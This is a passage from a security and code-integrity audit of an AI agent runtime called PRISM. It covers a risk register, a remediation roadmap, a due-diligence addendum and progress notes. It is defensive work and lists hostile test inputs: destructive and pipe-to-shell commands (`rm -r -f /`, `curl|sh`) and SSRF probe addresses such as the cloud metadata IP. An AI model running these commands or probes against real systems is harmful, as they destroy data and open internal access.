**A caution on the "10 Laws."** The framing borrows Asimov's Three Laws [5] and extends them with admirable intent (privacy, equity, transparency, operational bounds). But two of the laws — the Fifth (no judicial authority) and Ninth (transparent, auditable reasoning ledger) — make *verifiable* claims that the implementation only partially backs: the reasoning ledger exists (activity store) but is not a complete, human-legible decision trace for every action, and much "enforcement" of Laws 5/7/8 is soft prompt text against a probabilistic model. The Laws are excellent *design principles and marketing spine*; they should not be described to enterprise buyers as *enforced guarantees* where the enforcement is a system prompt. Truth-in-labeling here protects the project against a Seventh-Law critique of its own claims.

---

## 8. Consolidated Risk Register

| ID | Severity | Finding | Standard | Location |
| :-- | :-- | :-- | :-- | :-- |
| C1 | Critical | Unauthenticated secret-write / sensitive routes permanently public | A01 / LLM06 | [dashboard-service.ts#L1166](../src/core/operator/dashboard-service.ts#L1166) |
| C2 | Critical | `/api/computer/exec` RCE via bypassable deny list | A03 / LLM06 | [dashboard-service.ts#L7537](../src/core/operator/dashboard-service.ts#L7537) |
| H1 | High | Live Google OAuth secret at rest in repo | A02 / LLM02 | [client_secret_…json](../client_secret_1002774964370-p4t82v7dfvap6v5s40rv8ot18i4e9iae.apps.googleusercontent.com.json) |
| H2 | High | No OS keychain off-Windows → plaintext in-memory keys | A02 / LLM02 | [dashboard-service.ts#L1116](../src/core/operator/dashboard-service.ts#L1116) |
| H3 | High | `/api/agentic/action` forces `risk:"low"`, bypasses policy | Insecure Design / LLM06 | [dashboard-service.ts#L7561](../src/core/operator/dashboard-service.ts#L7561) |
| H4 | High | SSRF via `http_request` / provider `baseUrl` | A10 / LLM06 | [http-tool.ts#L25](../src/adapters/protocol/http-tool.ts#L25) |
| G1 | High* | "Cryptographically enforced" PAD is git+CI trust; no boot gate | NIST Govern | [directive-hash.generated.ts](../src/core/security/directive-hash.generated.ts) |
| M1 | Medium | Rate-limit loopback/XFF bypass + unbounded maps | A04 / LLM10 | [rate-limiter.ts#L143](../src/core/security/rate-limiter.ts#L143) |
| M2 | Medium | Bearer token in query string; manual rotation | A02 / A09 | [auth.ts#L85](../src/core/security/auth.ts#L85) |
| M3 | Medium | Three duplicated, bypassable command deny lists | Insecure Design | [shell-tool.ts#L15](../src/adapters/system/shell-tool.ts#L15) |
| M4 | Medium | Broad CSRF exemption for `/api/auth/` | A01 | [cors-csrf.ts#L60](../src/core/security/cors-csrf.ts#L60) |
| M5 | Medium | Secret plaintext via PowerShell args + `Bypass` | A02 | [provider-secret-store.ts#L88](../src/core/operator/provider-secret-store.ts#L88) |
| Q1 | Medium | `dashboard-service.ts` God object + dual routing | Maintainability | [dashboard-service.ts#L863](../src/core/operator/dashboard-service.ts#L863) |
| Q2 | Medium | No coverage tooling; hand-enumerated runner | Test integrity | [package.json](../package.json) |
| D1 | Medium | Doc/code drift: SR N-model non-functional; "185+ tests" | Trust | [llm-provider-manager.ts#L1404](../src/core/operator/llm-provider-manager.ts#L1404) |
| L1–L4 | Low | Dev path leak, SQL identifier interp, `npm:null`, no CSP/HSTS | Various | see §5 |

*G1 is severity-High as a *claim-integrity* and compliance risk, not a directly-exploitable code vulnerability.

---

## 9. Remediation Roadmap

**Sprint 0 — Stop the bleeding (days).**

1. **Revoke & rotate** the Google OAuth secret (H1); remove it from the tree.
2. **Gate wizard routes** behind `setupComplete === false`; remove secret-write endpoints from the permanent allowlist (C1).
3. **Neutralize the exec surface** (C2/H3): route `/api/computer/exec` and `/api/agentic/action` through the PolicyEngine with real risk derivation and approval; switch `exec` → `execFile` + argument allowlist.
4. **Add SSRF egress filtering** (H4): block loopback/link-local/RFC-1918 before connect.

**Sprint 1 — Close the credibility gap (1–2 weeks).**

1. **Sign the PAD** with an offline Ed25519 key (reuse [initialization-signature.ts](../src/core/security/initialization-signature.ts) machinery) and add a **fail-closed boot gate** in [index.ts](../src/index.ts). This upgrades "tamper-evident" to genuinely "cryptographically enforced" — making the headline claim *true* (G1).
2. **Implement real secret storage** off-Windows (libsecret/macOS keychain or KMS-encrypted at rest) and correct the README (H2).
3. **Harden rate limiting** — trusted-proxy allowlist for `X-Forwarded-For`, bounded key maps (M1); short-lived transport tickets (M2).
4. **Centralize the command policy** into one allowlist-based module (M3); scope the CSRF exemption (M4).

**Sprint 2 — Pay down structural debt (weeks).**

1. **Finish the router extraction**; introduce `IDashboardContext`; delete the inline dispatch branches (Q1).
2. **Add `c8` coverage + glob test discovery**; publish the real test-case count; make the README number generated (Q2, D1).
3. **Wire the N-model SR path to execution** or clearly mark it experimental in docs until it runs (D1).
4. **Add a CSP/HSTS** header set (L4) and an `import/no-restricted-paths` layering rule.

**Sprint 3 — Institutionalize the differentiation (ongoing).**

1. Publish a **NIST AI-RMF crosswalk** and an **EU AI Act high-risk readiness** doc — turning PRISM's genuine governance strengths into buyer-facing compliance assets, and re-baselining the "cryptographically enforced" language to what the (now-signed) implementation supports.

---

## 10. Verdict

PRISM is a **serious, ambitious, and largely well-built system** carrying a small number of **serious, fixable defects** and a **rhetoric that runs ahead of its implementation.** The engineering that matters — approval-gated execution, runtime integrity re-attestation, graceful degradation, a substantive test suite — is real and, in places, genuinely above the open-source norm. The flagship "cryptographically enforced governance" and "novel tri-model cognition" claims do not fully survive source review: the former is tamper-evidence plus code-review discipline, and the latter is a competent implementation of the known Mixture-of-Agents pattern with a non-functional N-model path.

None of that is fatal. Every one of the critical and high findings is closeable within a few focused sprints, and the two claim-integrity gaps (signed PAD, honest test counts) can be *converted into true statements* using machinery already present in the tree. The most valuable thing this audit can say is therefore also the most encouraging: **PRISM does not need to overstate itself. The accurate description — a self-hostable agent runtime that makes governance, approval, and auditability first-class — is already a strong, differentiated, and timely claim.** Close the security gaps, sign the directives, finish the monolith extraction, and align the README with the code, and PRISM can stand behind its ambitions without a single asterisk.

The work has come a very long way. It is worth the discipline of the last mile.

— *End of audit.*

---

## 11. References

[1] J. Wang, J. Wang, B. Athiwaratkun, C. Zhang, J. Zou, *"Mixture-of-Agents Enhances Large Language Model Capabilities,"* arXiv:2406.04692, June 2024. https://arxiv.org/abs/2406.04692

[2] OWASP GenAI Security Project, *"OWASP Top 10 for LLM Applications 2025"* (LLM01 Prompt Injection; LLM02 Sensitive Information Disclosure; LLM03 Supply Chain; LLM06 Excessive Agency; LLM10 Unbounded Consumption). https://genai.owasp.org/llm-top-10/

[3] NIST, *"Artificial Intelligence Risk Management Framework (AI RMF 1.0),"* NIST.AI.100-1, Jan. 2023; and *"Generative AI Profile,"* NIST.AI.600-1, Jul. 2024. https://www.nist.gov/itl/ai-risk-management-framework

[4] European Union, *"Regulation (EU) 2024/1689 (AI Act)"* — high-risk provider obligations, Arts. 8–17 (risk management, data governance, record-keeping, human oversight, accuracy/robustness/cybersecurity). High-level summary: https://artificialintelligenceact.eu/high-level-summary/

[5] I. Asimov, *"Runaround"* / *I, Robot* — the Three Laws of Robotics, 1942/1950 (the acknowledged basis for PRISM's extended 10 Laws).

[6] OWASP Foundation, *"OWASP Top 10:2021"* — A01 Broken Access Control, A02 Cryptographic Failures, A03 Injection, A10 Server-Side Request Forgery (SSRF). https://owasp.org/Top10/

**Primary source of record:** the PRISM working tree at `prism-core` v0.22.4, file-and-line citations throughout.

---

## Appendix A — Claim-by-Claim Verification Matrix

| README / Charter Claim | Status | Evidence |
| :-- | :-- | :-- |
| "Cryptographically enforced 10 Laws (SHA-256, CI-gated)" | ⚠️ **Partly true** — hash and signature-backed boot/CI checks are now enforced, but full governance-custody and law-level hard enforcement claims still exceed current evidence | [directive-signature.ts](../src/core/security/directive-signature.ts) |
| "Verified at boot" | ✅ **True** — startup now fail-closes on directive-integrity failure via explicit boot gate | [src/index.ts](../src/index.ts#L90) |
| "Guardian re-checks integrity every 10 min" | ✅ **True** | [guardian-agent.ts#L131](../src/core/agents/guardian-agent.ts#L131) |
| "Self-heals crashed model slots" | ⚠️ **Partly** — MCP recovery real; generic self-heal is a stub | [guardian-agent.ts#L955](../src/core/agents/guardian-agent.ts#L955) |
| "Tri-model parallel fan-out with structured aggregation" | ✅ **True** (parallel `Promise.all` + XML-templated aggregation) | [llm-provider-manager.ts#L1535](../src/core/operator/llm-provider-manager.ts#L1535) |
| "Mandatory Left≠Right isolation at config/activation/runtime" | ✅ **True** | [model-capability-matrix.ts#L3162](../src/core/operator/model-capability-matrix.ts#L3162) |
| "N-model fan-out (up to 8 hemispheres)" | ❌ **Non-functional at runtime** — `hemispheres[]` never consumed | [llm-provider-manager.ts#L1404](../src/core/operator/llm-provider-manager.ts#L1404) |
| "No competing framework offers native multi-model fan-out" | ❌ **Overstated** — Mixture-of-Agents is prior art | [1] |
| "3-tier policy engine with approval queues, timeouts, denial paths" | ✅ **True and correctly enforced** | [orchestrator.ts#L114](../src/core/runtime/orchestrator.ts#L114) |
| "API keys never in SQLite, never returned; DPAPI/OS keychain" | ⚠️ **Windows only** — plaintext in-memory off-Windows | [dashboard-service.ts#L1116](../src/core/operator/dashboard-service.ts#L1116) |
| "Token-based auth on all endpoints" | ❌ **False** — permanent public allowlist includes secret-write | [auth.ts#L71](../src/core/security/auth.ts#L71) |
| "Production guard: `PRISM_AUTH_DISABLED` throws in prod" | ✅ **True** (dual-implemented) | [environment.ts#L73](../src/bootstrap/environment.ts#L73) |
| "195 discovered suites passing" | ✅ **True** — auto-discovery is now the canonical test path, CI exercises it, and README count syncs from the discovery runner report | [package.json](../package.json) |
| "Optional deps degrade gracefully, no crash" | ✅ **True** — best-engineered subsystem | [optional-deps.ts](../src/core/system/optional-deps.ts) |

---
---

# Part II — Due-Diligence Review, Evaluation & Forward Roadmap

## Addendum to the Critical Audit — 13 July 2026

> **Purpose of this addendum.** Part I established *what is true* about PRISM. Part II answers the next three questions a serious reviewer (an acquirer, an enterprise buyer, a security committee, or the maintainer preparing for either) must ask: **(a) Is the audit itself trustworthy and complete enough to rely on?** **(b) What should we *consider* before betting on this system?** and **(c) What is the concrete, resolution-bearing plan to make it fit for that bet?** It re-frames the Part I findings through a due-diligence lens, adds the dimensions Part I did not cover, pairs every enhancement with a specific resolution and a verification test, and replaces the original §9 sprint list with a phased **Roadmap Forward v2** carrying exit criteria, KPIs, and release gates.

---

## 12. Due-Diligence Evaluation of the Audit Itself

Good due diligence begins by auditing the audit. A finding is only as useful as the confidence behind it, and a roadmap built on unverified claims is theater of exactly the kind Part I criticized.

### 12.1 Method confidence

Part I is a **white-box static audit** with measured metrics and file-and-line evidence for every material claim, cross-referenced to primary external standards. That places its findings at **high confidence for existence and location** ("this code does X at line Y") and **medium-high confidence for exploitability** (the security findings are reasoned from code paths, not all proven with a running exploit).

### 12.2 What the audit did *not* do — the honest coverage gap

Due diligence requires naming the blind spots. Part I deliberately did **not** perform the following, and none of these gaps should be read as a clean bill of health:

| Un-performed check | Why it matters | Residual risk |
| :-- | :-- | :-- |
| **Dynamic testing (DAST) / live pen-test** | Static reasoning can miss auth-bypass chains and over-report unreachable paths | Medium — C1/C2 should be confirmed with a live PoC before and after fix |
| **Dependency CVE scan / SBOM** | 100k-LOC + native deps (`sqlite3`, `node-pty`, `sharp`, `playwright`) carry transitive CVEs | Medium — no current `npm audit` / CycloneDX evidence (OWASP LLM03) |
| **License & IP originality review** | Apache-2.0 + a `LICENSE-COMMERCIAL.md` dual model; add-ons touch ROS2/BrainSim — copyleft/attribution exposure | Medium — unverified transitive license compatibility |
| **Runtime performance / load & soak validation** | `perf:qualify` and `soak:*` scripts exist but were not executed here | Low-Medium — scalability claims unproven in this pass |
| **Data-flow & privacy mapping (DPIA)** | Sixth Law and CAC promise privacy; no data-inventory / retention proof was produced | Medium — required for GDPR / EU AI Act record-keeping |
| **Secrets-history scan of full git log** | Part I confirmed the OAuth secret is *untracked now*, not that no secret was *ever* committed | Medium — run `gitleaks`/`trufflehog` over full history |
| **Model/prompt-injection red-team** | Governance preamble is prompt-level; not adversarially tested (OWASP LLM01) | Medium — governance efficacy is asserted, not measured |

**Consideration DD-1.** Treat Part I as the *architecture and code-integrity* leg of due diligence. Two further legs — **dynamic security validation** and **supply-chain/legal** — remain open and are folded into Roadmap v2 as first-class tracks, not afterthoughts.

### 12.3 Evaluation verdict on the audit

The audit is **sound, evidence-bound, and actionable**, with correctly-scoped confidence. Its principal limitation is that it is static-only. The roadmap below closes that limitation by requiring each remediation to be proven by a *test that fails today and passes after the fix* — converting reasoned findings into regression-guarded facts.

---

## 13. Due-Diligence Considerations (by stakeholder lens)

Considerations are not findings; they are the risk-weighted questions a decision-maker should hold in mind. Each is tagged with the lens that cares most.

- **[Security] C-1 — Blast radius of the single admin token.** Because C2/H3 make `exec` and `agentic/action` RCE-adjacent, the entire security model currently reduces to *"protect one bearer token."* That is a single point of catastrophic failure. *Consideration:* even after fixing C1/C2, adopt defense-in-depth (approval gating on exec, network egress control) so no single credential is game-over.
- **[Compliance] C-2 — Claim liability.** Marketing "cryptographically enforced" and "no competing framework offers this" are **representations**. For an enterprise sale or acquisition, inaccurate technical representations are a warranty and, under the EU AI Act's transparency provisions, a regulatory exposure. *Consideration:* claim-accuracy is a legal/commercial risk, not just a docs nicety.
- **[Engineering] C-3 — Bus factor & the God object.** An 11,276-line class that 43 modules import concretely means change velocity and onboarding both bottleneck on one file and, likely, one author. *Consideration:* the monolith is a *business-continuity* risk as much as a code-quality one.
- **[Product] C-4 — Feature honesty vs. roadmap.** The dead N-model path shows a pattern: *shipped-in-docs before shipped-in-runtime.* *Consideration:* institute a "no `[x]` without a passing execution-path test" rule to stop drift at the source.
- **[Operational] C-5 — Off-Windows is a second-class citizen.** Secret storage (H2) and the hardcoded `D:\Projects\...` path (L1) reveal a Windows-first reality behind cross-platform claims. Most production/Docker deployments are Linux. *Consideration:* the primary deployment target is the least-hardened one.
- **[Supply chain] C-6 — Unproven dependency & license hygiene.** No SBOM, `npm:null@*` alias, unpinned native deps. *Consideration:* this is the difference between "self-hostable" and "safely self-hostable."
- **[Trust] C-7 — The audit's own strength is the sales asset.** PRISM's genuine differentiator (governance as load-bearing) is *validated* by this audit's positives. *Consideration:* the remediation, done publicly, is itself marketable proof of the thesis.

---

## 14. Enhancements & Suggestions — with Resolutions

Every row pairs a **consideration/finding** with a **concrete enhancement**, a **specific resolution** (how to build it, reusing what already exists), and a **verification** (the test that proves it). Effort is T-shirt sized; impact is on a Low/Med/High scale.

### 14.1 Security & integrity

| # | Finding | Enhancement | Resolution (concrete) | Verification | Effort / Impact |
| :-- | :-- | :-- | :-- | :-- | :-- |
| E1 | C1 unauth secret-write | First-run-only bootstrap surface | Add a `setupComplete` guard in [auth.ts](../src/core/security/auth.ts#L71) allowlist evaluation; wizard routes return `403` once `readPreferences().setupComplete === true`. Issue a one-time `bootstrapToken` (TTL 30 min) minted at first boot for the wizard. | New `auth-public-allowlist.test.ts`: POST `/api/llm/provider-secret` returns 401/403 when setup complete | S / **High** |
| E2 | C2 exec RCE | Approval-gated, allowlisted exec | Replace `child_process.exec` with `execFile(bin, args[])` in [computer-handler.ts](../src/core/operator/routes/computer-handler.ts#L429); route through `PolicyEngine.evaluate({risk:"high"})` → approval queue; deny-list → **allow-list** of permitted binaries. | Extend `shell-tool-destructive.test.ts` with the Part I bypass corpus (`rm -r -f /`, `curl\|sh`, `-enc`) → all denied | M / **High** |
| E3 | H3 forced low-risk | Contract-derived risk | In [dashboard-service.ts](../src/core/operator/dashboard-service.ts#L7561), derive `{risk, mutatesState}` from the tool's `governance`/`minimumRisk` schema via `governance-normalizer`, never caller constants. | Test: invoking `shell_exec` via `/api/agentic/action` triggers tier-3 approval | S / **High** |
| E4 | H4 SSRF | Egress guard | Add `assertPublicUrl()` used by [http-tool.ts](../src/adapters/protocol/http-tool.ts#L25) and provider-test: resolve DNS, reject loopback/link-local/RFC-1918/`169.254.169.254`, disallow redirects to internal hosts, optional allowlist. | Test matrix: `http://169.254.169.254`, `http://127.0.0.1`, `http://10.0.0.1` all rejected | S / **High** |
| E5 | H1 secret at rest | Secret out of tree + history scrub | Revoke/rotate the Google client in GCP; load from `PRISM_GOOGLE_OAUTH_SECRET` env/secret store; run `gitleaks` over full history; add pre-commit `gitleaks` hook via existing `husky`. | CI `security:secrets` fails build on any high-entropy match | S / **High** |
| E6 | H2 plaintext keys off-Windows | Real cross-platform secret store | Implement `LibsecretProviderSecretStore` (Linux `secret-tool`) and `KeychainProviderSecretStore` (macOS `security`); fallback to an AES-256-GCM file store keyed by a machine-bound/KMS key — never `InMemory` in prod. Correct README §Security. | `provider-secret-store.test.ts` asserts non-Windows path is encrypted-at-rest, survives restart | M / **High** |
| E7 | G1 "crypto" overclaim | Signed directives + fail-closed boot gate | Sign `Permanent_Active_Directives.txt` with an **offline Ed25519 key** using existing [initialization-signature.ts](../src/core/security/initialization-signature.ts); ship only the *public* key in-repo; verify signature (not just hash) in a **boot gate** added to [index.ts](../src/index.ts) that aborts start on failure; extend the Guardian check to signature. | `directive-signature.test.ts`: tampered PAD or bad signature → process exits non-zero at boot | M / **High** |
| E8 | M1 rate-limit bypass | Trusted-proxy + bounded maps | Add `PRISM_TRUSTED_PROXIES`; only honor `X-Forwarded-For` from those; LRU-cap `globalWindows`/`routeWindows` at N keys with eviction. | Test: spoofed XFF from non-trusted socket does not reset bucket; map size bounded under flood | S / Med |
| E9 | M3 duplicated deny lists | Single command-policy module | Extract one `command-policy.ts`; the 3 call sites ([shell-tool](../src/adapters/system/shell-tool.ts#L15), [terminal-session-tool](../src/adapters/system/terminal-session-tool.ts#L51), [computer-handler](../src/core/operator/routes/computer-handler.ts#L433)) delegate to it; allow-list model. | One shared test suite exercises all call sites | S / Med |
| E10 | L4 no CSP/HSTS | Full header set + XSS DiD | Add a strict `Content-Security-Policy` (nonce-based; kills inline-handler XSS surface) and `Strict-Transport-Security` when TLS on, in the header block ([dashboard-service.ts](../src/core/operator/dashboard-service.ts#L4256)). | Header assertion test; CSP report-only rollout first | S / Med |

### 14.2 Architecture, quality & delivery

| # | Finding | Enhancement | Resolution | Verification | Effort / Impact |
| :-- | :-- | :-- | :-- | :-- | :-- |
| E11 | Q1 God object + dual routing | Finish the extraction | Migrate remaining ~274 inline branches into the modular `Router`; replace `service: DashboardService` with a narrow `IDashboardContext` port; delete the inline `handle()` dispatch. Target <1,500-line shell. | Line-count gate in CI (`dashboard-service.ts` < N); no inline route branches (lint rule) | L / **High** |
| E12 | Q2 no coverage, manual runner | Coverage + auto-discovery | Add coverage tooling (`c8`/`nyc`) with a floor (start at measured baseline, ratchet up); replace the enumerated `npm test` mega-string with auto-discovery so new suites are included by default. | CI publishes coverage %; new test files auto-run | S / **High** |
| E13 | D1 doc/code drift | "Docs follow runtime" gate | Rule: no roadmap `[x]` without a linked passing execution-path test. Auto-generate the README test count and feature-status table from the runner + a `features.json` reconciled in CI. | CI job diffs claimed vs. actual; fails on drift | M / Med |
| E14 | 430 `any` | Type-debt ratchet | Turn on `@typescript-eslint/no-explicit-any` (warn), type optional-dep shapes once at the seam, freeze the count and ratchet down; drop `skipLibCheck` where feasible. | CI fails if `any` count rises above frozen baseline | M / Med |
| E15 | Frontend 25k LOC vanilla | Incremental de-risk (no rewrite) | Split 190KB tabs into feature modules; replace 180 inline `onclick` with delegated `addEventListener` (also enables strict CSP, E10); namespace 113 `window.*` behind one object. | jsdom tests target behavior; CSP blocks inline handlers | L / Med |
| E16 | Layering leaks | Enforce boundaries | Introduce `core` port interfaces; invert the 40 `core→adapters` + 14 `core→operator` deps via DI; add `import/no-restricted-paths` to fail CI. | CI boundary rule green | M / Med |
| E17 | SR N-model dead path | Ship it or flag it | Either wire `hemispheres[]` into `generateSR` (consume `normalizeSRConfig` at runtime) **or** mark N-model `experimental` in docs/UI until it executes. | `sr-n-model-fanout` integration test exercises a real ≥3-model run end-to-end | M / Med |

### 14.3 Compliance, supply chain & operations (new dimensions)

| # | Consideration | Enhancement | Resolution | Verification | Effort / Impact |
| :-- | :-- | :-- | :-- | :-- | :-- |
| E18 | C-6 supply chain | SBOM + CVE gate | Generate a **CycloneDX SBOM** on build; wire `npm audit --audit-level=high` and OSV scanning into CI; pin native deps to exact versions; remove `@types/node-pty: npm:null@*`. | CI fails on high CVEs; SBOM artifact published per release (aligns SLSA/OWASP LLM03) | S / **High** |
| E19 | C-2 claim liability | Claims register + AI-RMF crosswalk | Maintain a `docs/CLAIMS_REGISTER.md` mapping every marketing claim → code evidence → status (this audit's Appendix A is the seed). Publish a NIST AI-RMF crosswalk and an EU AI Act high-risk readiness matrix. | Quarterly claims-register review; each claim has evidence link | M / **High** (commercial) |
| E20 | DD privacy | DPIA + data inventory | Produce a data-flow map (what PII, where stored, retention, who can export via CAC); document Sixth-Law enforcement concretely; add configurable retention to the activity store. | DPIA doc; retention policy test | M / Med |
| E21 | DD dynamic security | Recurring red-team | Stand up a scheduled DAST + prompt-injection red-team (OWASP LLM01) against a disposable instance; feed results back as regression tests. | Nightly job; findings tracked to closure | M / Med |
| E22 | Ops readiness | Golden-path deploy hardening | Ship a hardened Linux/Docker reference (non-root, read-only FS, secret via env/KMS, TLS on, CSP on) as the *documented default*, not an afterthought. | `docker compose` smoke test asserts hardened defaults | M / Med |

---

## 15. Roadmap Forward v2 — Phased, Gated, Measurable

> **Supersedes and extends §9.** The original four sprints are preserved inside Phase 0–2 below and re-expressed with **exit criteria, owners, and verification gates**. Two new parallel tracks — **Supply-Chain/Legal** and **Compliance/Claims** — run alongside the engineering phases because they gate *trust*, not just code.

### Guiding principle

**No item is "done" until a test that fails today passes after the change.** Remediation is measured by regressions prevented, not tickets closed. This directly answers Consideration C-4 and the D1 drift finding.

### Phase 0 — Containment (Days 1–5) · *Exit gate: no unauthenticated privilege, no plaintext live secret*

| Item | Enh. | Exit criterion |
| :-- | :-- | :-- |
| Revoke + rotate Google OAuth secret; move to env/secret store; history scan | E5 | `gitleaks` clean; key rotated in GCP |
| Gate wizard routes behind `setupComplete`; bootstrap token | E1 | Auth test proves secret-write is 401/403 post-setup |
| Approval-gate + allowlist `exec` and `agentic/action`; contract-derived risk | E2, E3 | Bypass-corpus test green; forced-low-risk removed |
| SSRF egress guard | E4 | Metadata/loopback/RFC-1918 rejection test green |

**KPI:** Critical + High open findings: **6 → 0.**

### Phase 1 — Credibility (Weeks 1–3) · *Exit gate: every headline claim is true or relabeled*

| Item | Enh. | Exit criterion |
| :-- | :-- | :-- |
| Sign PAD (offline Ed25519) + fail-closed boot gate + Guardian signature check | E7 | Tampered/badly-signed PAD aborts boot (test) |
| Real cross-platform secret store; correct README | E6 | Encrypted-at-rest test on Linux/macOS; README accurate |
| Trusted-proxy rate limiting + bounded maps; scope CSRF exemption | E8 | Spoof + flood tests green |
| CSP/HSTS headers (report-only → enforce) | E10 | Header + CSP-violation tests green |
| SBOM + CVE/OSV CI gate; pin deps; drop `npm:null` | E18 | Build fails on high CVE; SBOM artifact emitted |
| Claims register + Appendix-A automation | E19 | `CLAIMS_REGISTER.md` live; drift job green |

**KPI:** Claim-accuracy (Appendix A ❌/⚠️ rows): **7 → 0.** Supply-chain gate: **absent → enforced.**

### Phase 2 — Structural debt (Weeks 3–8) · *Exit gate: change velocity unblocked, drift impossible*

| Item | Enh. | Exit criterion |
| :-- | :-- | :-- |
| Finish router extraction; `IDashboardContext` port | E11 | `dashboard-service.ts` under line-count gate; no inline routing |
| Coverage tooling + auto-discovery; publish real counts | E12, E13 | Coverage floor enforced; README count generated |
| Centralize command policy | E9 | Single module; shared deny/allow test suite |
| Type-debt ratchet; layering boundary rule | E14, E16 | `any`/boundary counts frozen and ratcheting |
| SR N-model: ship or flag | E17 | End-to-end N-model test **or** `experimental` label in UI/docs |

**KPI:** Largest-file LOC: **11,276 → <1,500.** Coverage: **unknown → measured + floored.**

### Phase 3 — Hardening & compliance (Weeks 6–12, overlapping) · *Exit gate: audit-ready for enterprise*

| Item | Enh. | Exit criterion |
| :-- | :-- | :-- |
| DPIA + data inventory + activity-store retention | E20 | DPIA doc; retention configurable + tested |
| Recurring DAST + prompt-injection red-team | E21 | Nightly job; findings → regression tests |
| Hardened Linux/Docker golden path as default | E22 | Smoke test asserts non-root/read-only/TLS/CSP |
| Frontend incremental de-risk (enables strict CSP) | E15 | Inline handlers removed on migrated tabs |
| NIST AI-RMF crosswalk + EU AI Act readiness matrix | E19 | Published; mapped to controls |

**KPI:** External-standard coverage (OWASP LLM Top-10, NIST-RMF functions): documented mapping with evidence.

### Phase 4 — Institutionalize (Ongoing) · *Exit gate: quality is self-sustaining*

- Release gate (Appendix C) blocks any release that regresses a fixed finding.
- Quarterly claims-register + SBOM + red-team review.
- "Docs follow runtime" enforced in CI permanently (E13).

### Roadmap on one axis

```mermaid
gantt
    title PRISM Remediation Roadmap v2
    dateFormat X
    axisFormat %s
    section Phase 0 Containment
    Rotate secret / gate wizard / exec / SSRF   :0, 5
    section Phase 1 Credibility
    Sign PAD + boot gate / secret store / SBOM  :5, 21
    section Phase 2 Structural
    Router extraction / coverage / SR flag      :21, 56
    section Phase 3 Compliance
    DPIA / DAST / hardened default / crosswalk   :42, 84
    section Phase 4 Institutionalize
    Release gate + quarterly reviews (ongoing)   :84, 120
```



---

## 16. Success Metrics & Definition of Done

The remediation is complete when **all** of the following hold — each independently verifiable:

1. **Security:** 0 open Critical/High findings; a live PoC for each former Critical fails against the patched build. (OWASP Top 10 / LLM Top 10 mapped and green.)
2. **Integrity:** boot **fails closed** on a tampered or unsigned PAD; verified by test.
3. **Claims:** Appendix A shows **0** ❌ and **0** ⚠️ rows, or the corresponding claim has been relabeled in README; `CLAIMS_REGISTER.md` is authoritative.
4. **Maintainability:** no source file > 1,500 lines in the routing layer; coverage measured and floored; `any`/boundary counts ratcheting down.
5. **Supply chain:** SBOM emitted per release; CI blocks high CVEs; no `npm:null` alias.
6. **Compliance:** NIST AI-RMF crosswalk + EU AI Act high-risk readiness matrix published; DPIA on file.
7. **Anti-drift:** CI proves claimed feature status == runtime reality on every build.

---

## 17. References (Addendum)

[7] OWASP, *"Application Security Verification Standard (ASVS) 4.0"* — access control (V4), stored secrets (V6), SSRF (V12/V13). https://owasp.org/www-project-application-security-verification-standard/

[8] OpenSSF, *"Supply-chain Levels for Software Artifacts (SLSA)"* — provenance & build integrity. https://slsa.dev/

[9] Sigstore / Cosign, *"Keyless & key-based signing of artifacts"* — reference for offline-key artifact signing (directive manifest). https://www.sigstore.dev/

[10] OWASP CycloneDX, *"SBOM standard."* https://cyclonedx.org/

[11] Gitleaks / TruffleHog — *secret-scanning of source and full git history.* https://github.com/gitleaks/gitleaks

[12] AICPA, *"SOC 2 Trust Services Criteria"* — relevant if PRISM pursues enterprise attestation (security, confidentiality, availability).

---

## Appendix B — Due-Diligence Coverage Matrix

| Diligence domain | Covered in Part I? | Status | Where addressed |
| :-- | :-- | :-- | :-- |
| Architecture & code integrity | ✅ | Done | §6, §12 |
| Static security (SAST-style) | ✅ | Done | §5 |
| Dynamic security (DAST/pen-test) | ❌ | **Open** | E21, Phase 3 |
| Governance/claim integrity | ✅ | Done | §3.2, Appendix A |
| Supply chain / SBOM / CVE | ❌ | **Open** | E18, Phase 1 |
| License & IP compatibility | ❌ | **Open** | C-6, DD-1 |
| Privacy / data governance (DPIA) | ⚠️ partial | **Open** | E20, Phase 3 |
| Performance / load / soak | ❌ | **Open** | scripts exist; run in Phase 3 |
| Compliance mapping (NIST/EU) | ⚠️ partial | Started | §7, E19 |
| Operational/deploy hardening | ⚠️ partial | **Open** | E22, Phase 3 |
| Test integrity / coverage | ✅ | Done (gap identified) | §6, E12 |

---

## Appendix C — Release-Gate Checklist (proposed CI enforcement)

A release is **blocked** unless every box is green:

### Execution Status (Live)

As of 2026-07-14, execution has started and the following roadmap items are now implemented in code and ready for validation testing:

- E1 (partial): setup/bootstrap auth bypasses are now gated to first-run (`setupComplete === false`) via `bootstrapRoutes`/`bootstrapPrefixes` in [auth.ts](../src/core/security/auth.ts), and applied in both auth bootstrap wiring paths.
- E2 (partial): `/api/computer/exec` now enforces command-policy controls: shell metacharacters blocked, command allowlist enforced, argument sanitizer applied, and execution moved from `exec` to `execFile`.
- E3 (partial): `/api/agentic/action` no longer hardcodes `risk: "low"`; it now derives risk/mutation/rollback from tool governance rules when present.
- E4 (partial): SSRF egress controls are now in place via [network-egress-guard.ts](../src/core/security/network-egress-guard.ts), applied to [http-tool.ts](../src/adapters/protocol/http-tool.ts) and provider base-url validation/test paths in [dashboard-service.ts](../src/core/operator/dashboard-service.ts).
- E18 (implemented): SBOM/CVE gating is wired via `npm run security:sbom-cve-gate` and CI aggregation in [ci-gate-check.ts](../src/benchmarks/ci-gate-check.ts); current gate evidence is green at `failOn=high` with `high=0`, `critical=0`.
- E5 (partial): workspace secret scanning is green via `npm run security:secrets` with summary artifact at `prism-output/secrets-scan-summary.json`; targeted git-history checks for `GOCSPX` and `client_secret*.json` are clean; full-history scanning (gitleaks/trufflehog) remains pending.
- E7 (implemented): fail-closed PAD boot gate now verifies both hash and Ed25519 signature in startup ([index.ts](../src/index.ts), [directive-integrity.ts](../src/core/security/directive-integrity.ts), [directive-signature.ts](../src/core/security/directive-signature.ts)); CI enforces PAD hash+signature integrity via `npm run security:directive-integrity` and `prism-output/security/directive-integrity-gate-summary.json`; Guardian periodic directive task now validates signature along with hash; production bypasses are explicitly blocked.
